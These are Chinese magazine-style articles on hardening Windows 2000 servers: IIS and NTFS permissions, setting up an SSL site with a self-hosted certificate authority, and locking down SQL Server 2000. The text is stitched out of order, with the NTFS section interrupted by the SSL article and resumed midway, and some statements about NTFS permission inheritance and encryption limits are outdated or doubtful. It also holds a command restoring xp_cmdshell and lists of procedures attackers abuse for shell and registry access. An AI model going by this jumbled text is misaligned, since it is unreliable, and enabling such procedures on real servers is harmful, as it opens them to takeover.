

- 第一，对于静态的 Web 内容，可以采用可读，但不可以执行权限；
- 第二，对于动态的 Web 页面，可以采用可读，也可以执行脚本；
- 第三，其他脚本内容和动态页面一样配置；
- 第四，是可执行程序，配置应该是可读而且可以执行；
- 第五，数据库内容，配置最好是可读、可写，但不可执行。

> 注：以上只是我的个人观点而已，若按照上述配置，出现安全问题与我无关。

## 四、NTFS 权限

对于 NTFS 权限，大家一定不陌生。当然，要使用 NTFS 格式，管理 Web 内容必须是 NTFS 格式的。如图 11 所示。



图11 显示有 6 种基本 NTFS 权限：读取，写入，列出文件夹目录，读取及运行，修改，完全控制。

下面我们来看看如何配置 NTFS 权限：我们先假设一个用户对 NTFS 格式的文件进行访问，他的

## 构建一个基于SSL的安全Web网站
文/郑陆军

本文着重讲述如何将自己的网站配置成一个基于SSL的Web站点。本文假定系统环境为Windows 2000 Advanced Server，并已经运行IIS 5.0，同时，假设要配置服务器的IP地址为120.10.10.11。

## 安装安全

一般来说，商业上正规的安全认证证书是由专门的安全认证中心统一颁发的，这种证书需要申请，而且要花钱购买。幸运的是，Windows 2000的标准组件中提供了“证书颁发机构”组件，不用犹豫，马上安装该组件，让自己的计算机也成为安全认证中心，来颁发安全认证证书。

- 安装步骤如下：
  1. 从“开始→设置→控制面板→添加/删除程序→添加/删除Windows组件”，进入“Windows组件向导”。
  2. 选中“证书服务”，系统会提示“安装证书服务后，不能重命名计算机，并且计算机不能加入域或从域中删除，要继续吗？”选择“是”（若要重命名计算机、加入域或从域中删除，要重新安装证书颁发机构），单击“下一步”。
  3. 在此后选择“独立根CA”、输入CA名称（假设为“my CA”），逐步完成安装。

安装完成后，还需进行必要的配置：

- (1) 从“开始→程序→管理工具”进入“证书颁发机构”；
- (2) 鼠标选中“my CA”，按鼠标右键选择“属性”，进入“my CA属性”窗口；
- (3) 选择“策略模块”，按下“配置”按钮，进入“属性”对话框；
- (4) 在“默认操作”项选择“始终颁发证书”，确认后，按提示重新启动，证书服务就完成配置了。

## 获得安全证书

在向“证书颁发机构”申请安全认证证书之前，要先生成申请文件，然后用此申请文件向“证书颁发机构”申请安全认证证书。具体操作步骤如下：

- 1. 从“管理工具”进入“Internet服务管理器”。
- 2. 启动“Internet信息服务”（假设要设置为安全Web站点的名称是“默认Web站点”），找到“默认Web站点”，按鼠标右键选择“属性”。

访问权是由该文件的ACL（访问控制表）和用户在Windows 2000工作组的资格来决定的。如果他对这个文件有完全控制的权限，但是他所在工作组只有读取的权限，那么，他对该文件还是有完全的控制权。相反，如果他对该文件没有访问权，但是他的工作组有读取的权力，结果他还是没有访问权。当我们在修改文件夹ACL的时候，也会有继承的问题出现，默认的情况下，它下面的所有文件都会继承它的设置。

对于我们的站点来说，NTFS权限是应该着重考虑的，我们在建站的第一步就应该在ACL中删除虚拟目录和Web页面的everyone组。如果没有这样做的话，嘿嘿……忘记著名的缓冲区溢出漏洞了么？

以上内容还有许多值得推敲的地方，希望大家指正。IIS的安全远远不止这么简单，还有很多高深的东西要我们去学习。比如禁止一些不必要的服务、协议；还有禁止目录浏览啊，观察日志文件啊，NTFS审计。

- 3. 在“默认Web站点属性”对话框中进入“目录安全性”项目，单击“服务器证书”按钮进入“IIS证书向导”对话框。
- 4. 选择“创建一个新证书”，然后单击“下一步”逐步完成创建，最后生成证书申请文件 `c:\certreq.txt`。

另外，还需要建立一个新的站点用于证书发布（假设：取名叫“证书发布”，IP地址为120.10.10.11，端口为85），该站点的主目录需要指向 `C:\WINNT\system32\certsrv`。

在配置好安全证书发布主页后，接下来就可以用它来发布证书了：

- 1. 打开 `c:\certreq.txt` 文件，用Notepad或其他文本编辑工具打开，选定全部内容并拷贝到剪贴板。
- 2. 打开IE，在地址栏输入“http://120.10.10.11:85”并确认，根据网页的提示单击“下一步”按钮，逐步完成申请。具体过程为：申请证书→高级申请→使用Base64编码的PKCS #10或PKCS #7文件更新证书申请。在文本输入框中将 `c:\certreq.txt` 的内容（已复制到剪贴板）粘贴进去并提交，选择Base64编码，然后下载CA证书并保存为 `c:\certnew.cer`。

接下来，安装下载的服务器证书：

- 1. 在“默认Web站点属性”对话框中进入“目录安全性”项目；
- 2. 单击“安全通信”栏中的“服务器证书”按钮进入“IIS证书向导”对话框；
- 3. 选择“处理挂起的请求并安装新证书”，然后单击“下一步”；
- 4. 输入证书的路径 `c:\certnew.cer`，如果一切顺利，就安装好证书了。

# SSL 的应用

在应用SSL之前，还有一项工作要做，需要设置Web的安全通信属性：

- 1. 在“默认Web站点属性”对话框中进入“目录安全性”项目；
- 2. 单击“安全通信”栏中的“编辑”按钮进入“安全通信”对话框；
- 3. 选择“申请安全通道(SSL)”和“接收客户证书”然后确认。这样的配置要求客户端必须使用SSL安全通信。在一般情况下，用户可以根据自己的需要自由配置“默认Web站点”内的每一个虚拟目录或文件的安全通信属性以及是否强制客户端必须使用SSL传输。

在Web的安全通信属性设置中，不同的配置选项会对客户端有不同的要求：

如果不选择“申请安全通道(SSL)”，则允许客户端可以选择是否使用SSL加密传输，即使用加密方式访问“https://120.10.10.11”或不加密方式访问“http://120.10.10.11”，可以由客户端自己选择。如果选择了“申请安全通道(SSL)”，则要求客户端必须使用SSL加密传输，即必须使用 `https://120.10.10.11` 的形式。选择“申请128位加密”，要求客户端的浏览器必须支持128位的加密强度。建议不要选择该项，因为一般的浏览器支持的是56位的加密强度，而且系统帮助文件里提到128位加密技术只限制在美国本土和加拿大使用，不向其他国家出口。

当Web服务器的安全通信属性配置为“申请安全通道(SSL)”和“申请客户证书”后，客户端以HTTPS的形式访问该Web时，会被提醒需要选择一个已经安装的客户证书，如果没有客户证书或者没有服务器信任的客户证书，都不能访问。客户证书是服务器判断客户端是否可信任的依据，用来防止不被信任的客户端访问该服务器。申请和安装客户证书的具体步骤为：打开IE，在地址栏输入“http://120.10.10.11:85”并确认，根据网页的提示单击“下一步”按钮逐步完成申请。申请过程中分别选择：申请证书→用户证书申请（选择“Web浏览器证书”）→输入在证书中出现的标识信息（至少要输入名称）→您申请的证书已发布给您（点击“安装此证书”）→您的新证书已经成功安装。当用IE再一次访问Web服务器时，会弹出“客户身份验证窗口”，在该窗口内选择刚才安装的客户证书，然后确认，就可以正常访问服务器了。

应用SSL传输网上信息后，可以保证信息的安全，但是网站的速度会受影响，因为加密是需要花时间的。本文所讲述的例子是将整个站点都配置为要求SSL传输，也就是说，访问的所有文件都是加密传输的。实践中建议SSL安全传输只使用在一些关键信息的传输上，比如验证用户名、密码（口令）或其他需要保密的信息等，一般的信息可以正常传输。这样分配后，网站速度几乎不受影响。

# SQL Server 的安全配置
文/Chinaboy

利用数据库漏洞进行入侵是黑客们常用的手法，特别是MS SQL的某些漏洞更是让他们屡屡得手。那么，如何进行安全配置，维护好SQL Server的安全呢？这是本文重点讨论的问题。

微软的SQL Server是一种广泛使用的数据库，IIS 5.0+ASP+SQL Server已经成为很多电子商务网站、企业内部信息化的平台。但是，数据库的安全性又有多少人重视呢？很多管理员认为只要把好网络和操作系统的安全关就可以万事大吉了。其实由于系统管理员对数据库不熟悉而数据库管理员又对安全问题关心太少，这样就造成管理上的不便。并且一些安全公司也忽略数据库安全，这就使数据库的安全问题更加严峻了。数据库系统中存在的安全漏洞和不当的配置通常会造成严重的后果，而且都难以被网络管理人员发现，但是黑客却善于发现这些漏洞进行入侵，因此我们的损失会更大。所以数据库的安全问题不容忽视！

数据库应用程序通常同操作系统的最高管理员权限密切相关，而属于“端口”型的数据库的SQL Server数据库能被任何人用分析工具进行连接，从而绕过操作系统的安全机制，进而闯入系统，破坏和窃取数据资料，甚至破坏整个系统。

怎么样，恐怖吗？好，现在我们就来谈谈有关SQL Server 2000数据库的安全配置以及一些相关的安全和使用上的问题。

在进行SQL Server 2000数据库的安全配置之前，我还要说几句：你必须对操作系统进行安全配置，保证没有空口令、弱密码之类的东西！然后，你的IIS要保证没有什么大的问题，保证没有IPC$空连接……（某网管：你小子还在废话什么？这还要你教？）总之，你要保证你的服务器的安全！然后对你要使用的操作数据库软件进行必要的安全审核，比如对ASP、PHP等脚本，这是很多基于数据库的WEB应用常出现的安全隐患，对于脚本主要是一个过滤问题，需要过滤一些类似 `';@/\#%` 之类的字符，防止某些人构造恶意的SQL语句来……还要废话一句，在IIS里面把不必要的映射都给废了（如图1）！


图1

现在我们来讨论SQL Server的安全配置。首先还是安装问题，你必须要保证你安装SQL Server的分区是NTFS格式，否则毫无安全性可言！另外，如果条件允许，最好不要和用于Web的服务器用同一台机器，并且SQL Server必须要安装在单独的分区。

密码对于数据库来说，其重要性我就不说了，但是，可悲的是很多数据库账号的密码过于简单，甚至是空密码！这和系统弱密码一样，都可以得到系统的完全控制权限！对于sa，我们要特别注意不要让sa账号的密码写于应用程序或者脚本中。由于SQL Server不能更改sa用户名称，也不能删除这个超级用户，所以，对于sa这个黑客非常喜欢的账号我们要特别关照。首先我们要用一个非常强壮的密码来武装sa，例如使用字母加数字和Unicode字符来做密码（如图2）。另外，不要在数据库应用中使用sa账号，只有当没有其他方法登录到SQL Server的时候（例如，当其他系统管理员不可用或忘记了密码）时才使用sa。建议管理员新建一个拥有与sa一样权限的超级用户，并且用它来管理数据库。另外，不要随便将管理员权限赋予太多的账号！


图2

SQL Server的认证模式有Windows身份认证和混合身份认证两种。如果数据库管理员不希望操作系统管理员来通过操作系统登陆来接触数据库的话，可以在账号管理中把系统账号“BUILTIN\Administrators”删除。不过，这样做有一个危险，就是一旦忘记sa账号密码的话，就没法恢复！这样做是不推荐的！

SQL Server的功能很强大，这给我们的工作带来了不少的方便，同时也给黑客的入侵带来了很多的方便。

SQL Server的存储过程很多，其实在多数应用中我们根本用不到多少系统的存储过程，而SQL Server的这么多系统存储过程只是用来适应广大用户需求的，既然我们用不上，那么就删掉吧！很多的过程会很容易地被人利用提升权限或进行破坏。

比如xp_cmdshell是进入操作系统的最佳捷径，是数据库留给操作系统的一个大后门。这个是黑客喜欢的！对于我们来说没有什么大的用处，需要删掉！删除命令如下：

```
use master
sp_dropextendedproc 'xp_cmdshell'
```

如果你一定要用这个存储过程，也可以把它恢复过来（不过，被黑了不要怪我）！恢复命令如下：

```
sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll'
```

以下的OLE自动存储过程，基本上是没有什么用处，如果你不需要，请丢弃（会造成管理器中的某些特征不能使用，但是一般不会，所以请放心删除），这些过程包括：

- Sp_OACreate
- Sp_OADestroy
- Sp_OAGetErrorInfo
- Sp_OAGetProperty
- Sp_OAMethod
- Sp_OASetProperty
- Sp_OAStop



注册表的访问存储过程能够读出操作系统管理员的密码，而对我们来说又没有什么用，留着反而会有麻烦！所以删掉！这些存储过程如下：

- Xp_regaddmultistring
- Xp_regdeletekey
- Xp_regdeletevalue
- Xp_regenumvalues
- Xp_regread
- Xp_regremovemultistring
- Xp_regwrite



去掉其他系统存储过程，如果你认为你觉得你还有威胁，当然要小心DROP这些过程，你可以在测试机器上测试，保证你正常的系统能完成工作，这些过程包括：

- sp_bindsession
- sp_cursor
- sp_cursorclose
- sp_cursorfetch
- sp_cursoropen
- sp_cursoroption
- sp_getbindtoken
- sp_GetMBCSCharLen
- sp_IsMBCSLeadByte
- sp_OACreate
- sp_OADestroy
- sp_OAGetErrorInfo
- sp_OAGetProperty
- sp_OAMethod
- sp_OASetProperty
- sp_OAStop
- sp_replcmds
- sp_replcounters
- sp_repldone
- sp_replflush
- sp_replstatus
- sp_repltrans
- sp_sdidebug
- xp_availablemedia
- xp_cmdshell
- xp_deletemail
- xp_dirtree
- xp_dropwebtask
- xp_dsninfo
- xp_enumdsn
- xp_enumerrorlogs
- xp_enumgroups
- xp_enumqueuedtasks
- xp_eventlog
- xp_findnextmsg
- xp_fixeddrives
- xp_getfiledetails
- xp_getnetname
- xp_grantlogin
- xp_logevent
- xp_loginconfig
- xp_logininfo
- xp_makewebtask
- xp_msver
- xp_perfend
- xp_perfmonitor
- xp_perfsample
- xp_perfstart
- xp_readerrorlog
- xp_readmail
- xp_revokelogin
- xp_runwebtask
- xp_schedulersignal
- xp_sendmail
- xp_servicecontrol
- xp_snmp_getstate
- xp_snmp_raisetrap
- xp_sprintf
- xp_sqlinventory
- xp_sqlregister
- xp_sqltrace
- xp_sscanf
- xp_startmail
- xp_stopmail
- xp_subdirs
- xp_unc_to_drive

我们来看看SQL Server服务程序支持的网络协议库：

| 协议列表 | 可能存在的漏洞 | 是否加密 |
|---|---|---|
| Named pipes (有名管道) | 使用NT SMB端口(TCP 139, UDP 137, 138)来进行通信，这些可以由防火墙控制，但如果内部网络可随意访问的话也是一个不小的缺陷。用户名字、密码和数据没有进行加密传输，任何人可以通过Sniffer来进行数据捕获。 | 否 |
| IP Sockets | 默认状态下开1433口，你可以使用扫描器来查看这个端口。可以被Sniffer截获数据。 | 否 |
| Multi-Protocol | 客户端需要支持NT RPCs；在不同种类的环境中可能引起问题。默认情况下使用TCP随机端口，但防火墙进行端口固定实现。需要注意加密选项是否选择，默认是不选择此选项的。 | 是 |
| NWLink | 存在被Sniffer截获数据的危险 | 否 |
| AppleTalk (ADSP) | 存在被Sniffer截获数据的危险 | 否 |
| Banyan Vines | 存在被Sniffer截获数据的危险 | 否 |

看到了么？是不是有什么感想呢？默认情况下，SQL Server使用1433端口监听，很多人都说SQL Server配置的时候要把这个端口改变，这样别人就不能很容易地知道使用的是什么端口了。现在我们就来修改默认端口，更改原默认的1433端口。在实例属性中选择网络配置中的TCP/IP协议的属性，将TCP/IP使用的默认端口变为其他端口。



在实例属性中选择TCP/IP协议的属性。选择隐藏SQL Server实例。

如果隐藏了SQL Server实例，则将禁止对试图枚举网络上现有的SQL Server实例的客户端所发出的广播作出响应。这样，别人就不能用1434来探测你的TCP/IP端口了（如图5）。

但是这样还不是很安全，由于1434端口探测没有限制，能够被别人探测到一些数据库信息，而且还可能遭到DoS攻击，让数据库服务器的CPU负荷增大，所以对Windows 2000操作系统来说，在IPSec过滤拒绝掉1434端口的UDP通讯，可以尽可能地隐藏你的SQL Server（如图6，图7）。

